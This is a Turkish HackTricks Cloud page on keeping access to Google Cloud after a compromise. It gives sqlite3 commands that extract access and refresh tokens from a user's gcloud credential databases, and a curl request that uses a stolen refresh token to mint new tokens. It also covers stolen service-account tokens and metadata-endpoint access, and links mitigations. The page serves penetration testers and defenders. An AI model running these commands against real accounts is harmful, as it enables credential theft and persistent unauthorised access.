 # GCP - Non-svc Kalıcılık

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

Bu, bir şekilde GCP kimlik bilgilerini veya GCP ortamında çalışan bir makineyi ele geçirdiğinizde kullanışlı tekniklerdir.

## Token Kaçırma

### Kimlik Doğrulama Yapılmış Kullanıcı

Bir **GCP'de kimlik doğrulaması yapılmış bir kullanıcının** ev klasörüne erişmeyi başarırsanız, **varsayılan olarak**, kullanıcının token'larını **kimlik doğrulamaya gerek duymadan ve kullanıcının token'larını kullandığınız makineden bağımsız olarak ve hatta kullanıcının MFA yapılandırılmış olsa bile** istediğiniz sürece alabilirsiniz.

Bu, varsayılan olarak **yeniden token oluşturmak için istediğiniz süre boyunca yenileme token'ını kullanabileceğiniz anlamına gelir**.

Bir kullanıcının **geçerli token'ını** almak için şunu çalıştırabilirsiniz:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Bu sayfada, bu belirteci gcloud kullanarak nasıl **doğrudan kullanacağınızı** kontrol edin:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Yeni bir erişim belirteci **oluşturmak için ayrıntıları** almak için çalıştırın:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Yenilenmiş bir erişim belirteci almak için **yenileme belirteci**, istemci kimliği ve istemci sırrını kullanarak çalıştırın:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Yenileme belgeleri, varsayılan olarak 16 saat olarak ayarlanmış olsa da, **Yönetici** > **Güvenlik** > **Google Cloud oturum kontrolü** bölümünde yönetilebilir ve hiçbir zaman süresi dolmaması için ayarlanabilir:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Hizmet Hesapları

Yetkilendirilmiş kullanıcılarla aynı şekilde, bir hizmet hesabının **özel anahtar dosyasını ele geçirirseniz**, genellikle **istediğiniz sürece erişebilirsiniz**.\
Ancak, bir hizmet hesabının **OAuth belirteci**ni çalarsanız, bu daha da ilginç olabilir, çünkü varsayılan olarak bu belirteçler yalnızca bir saat için kullanışlı olsa da, **kurban özel API anahtarını silse bile, OAuth belirteci süresi dolana kadar geçerli olacaktır**.

### Meta Veri

Açıkçası, GCP ortamında çalışan bir makinede olduğunuz sürece, **metadata uç noktasına başvurarak o makineye bağlı hizmet hesabına erişebilirsiniz** (bu uç noktada erişebileceğiniz OAuth belirteçleri genellikle kapsamlarla sınırlıdır).

### Çözümler

Bu teknikler için bazı çözümler [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) adresinde açıklanmıştır.

## Referanslar

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>
